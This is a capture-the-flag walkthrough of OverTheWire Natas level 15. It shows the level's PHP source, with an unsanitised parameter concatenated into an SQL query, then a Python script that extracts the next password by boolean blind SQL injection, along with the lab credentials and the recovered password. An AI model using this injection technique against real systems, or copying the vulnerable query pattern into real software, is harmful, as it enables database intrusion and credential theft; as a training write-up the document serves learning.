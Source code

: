 This level is also an SQL level. 

```php
<?php
/*
CREATE TABLE `users` (
	`username` varchar(64) DEFAULT NULL,
	`password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
	$link = mysqli_connect('localhost', 'natas15', '<censored>');
	mysqli_select_db($link, 'natas15');
	
	$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
	if(array_key_exists("debug", $_GET)) {
		echo "Executing query: $query<br>";
	}
	
	$res = mysqli_query($link, $query);
	if($res) {
		if(mysqli_num_rows($res) > 0) {
			echo "This user exists.<br>";
		} else {
			echo "This user doesn't exist.<br>";
		}
	} else {
		echo "Error in query.<br>";
	}
mysqli_close($link);
} else {
?>
```

This will check for user existence. If I try to input `natas16` into the input field, it says that `This user exists`. The query selects both fields of the `users` table. This won't show any database information to us, only 3 different types of response based on our query. If the query is correct and it returns a user, it would notify us that the user exists, else it will notify us that the user doesn't exist, otherwise the query is wrong.

For this, we can try brute forcing the password by using a python script:
```python
import requests
from requests.auth import HTTPBasicAuth

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
correct_chars = ""
password = ""

# build a set of possible characters for password
print("Building charset...")
for char in characters:
    data = {"username" : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    response = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth("natas15", "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"), data=data)
    
    # check if query is correct
    if "exists" in response.text:
        correct_chars += char
        print(correct_chars)

# brute force the correct positions of the possible characters set (password size is 32)
print("Brute forcing...")
for i in range(0, 32):
    for char in correct_chars:
        data = {"username" : 'natas16" and password LIKE BINARY "' + password + char + '%" #'}
        response = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth("natas15", "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"), data=data)

        if "exists" in response.text:
            password += char
            print(password)
            break

print("natas16 password: " + password)
```

And here's the result: 
```py
natas16 password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
```